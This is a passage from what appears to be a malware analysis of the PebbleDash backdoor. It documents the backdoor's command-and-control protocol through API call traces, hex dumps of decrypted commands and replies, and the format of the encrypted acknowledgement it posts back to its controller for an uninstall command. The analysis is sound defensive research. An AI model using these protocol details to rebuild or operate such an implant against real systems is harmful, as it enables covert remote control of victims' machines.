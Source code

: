 ```html
[RET] [0x7ff7a37d6c47] [+0x6c47] in [pebbledash.exe]

```

The "data=" parameter is the feedback from the command execution :  

```
00000000  02 00 00 00 1c 00 00 00 43 00 3a 00 5c 00 55 00  |........C.:.\.U.|
00000010  73 00 65 00 72 00 73 00 5c 00 75 00 73 00 65 00  |s.e.r.s.\.u.s.e.|
00000020  72 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |r...............|
```

First ULONG (0x2) is likely 'SUCCESS', 2nd ULONG (0x1c) is the size of the following data, in this case the new Current Directory  

# CMD_ID 0x0C UNINSTALL

Command fetched from the C2 :  

```html
[CNT] [775]
[PTP] [0x9fc] [0xa00] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpReadData> in [winhttp.dll] 
[PAR] HINTERNET hRequest              : 0xb4d38be0
[PAR] LPVOID    lpBuffer              : 0x00000041B4D6C630
[PAR] DWORD     dwNumberOfBytesToRead : 0x1e
[PAR] LPDWORD   lpdwNumberOfBytesRead : 0x00000041B4C8E41C
[RET] [0x7ff7ac046fa4] [+0x6fa4] in [pebbledash.exe]

[ * ] [pid 0x9fc][tid 0xa00] c:\users\user\desktop\pebbledash\pebbledash.exe
[API] <WinHttpReadData>
[PAR] LPCVOID lpBuffer : 0x00000041B4D6C630
[STR]         -> "<html>xe3pubTIrgrxZVeDWQMb6A=="
[RES] BOOL 0x1
```
After Base64Decode and AES Decrypt, the layout of the command is :  

```
00000000  0c 00 00 00 00 00 00 00                          |........|
```

First 8 bytes is the command ID (0x0C), no parameter is expected  

PebbleDash handles this command this way :  

* Acknowledging the order to the C2 :

```html
[CNT] [819]
[PTP] [0x9fc] [0xa00] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpWriteData> in [winhttp.dll] 
[PAR] HINTERNET hRequest                 : 0x00000041B4D38BE0
[PAR] LPCVOID   lpBuffer                 : 0x00000041B4D53020
[STR]           -> "sep=sRhqotvThSV&sid=010e5bd3&data=mEDprwdataytk2iDklCURg=="
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x3a
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x00000041B4C8CFB8
[RET] [0x7ff7ac046c47] [+0x6c47] in [pebbledash.exe]
```
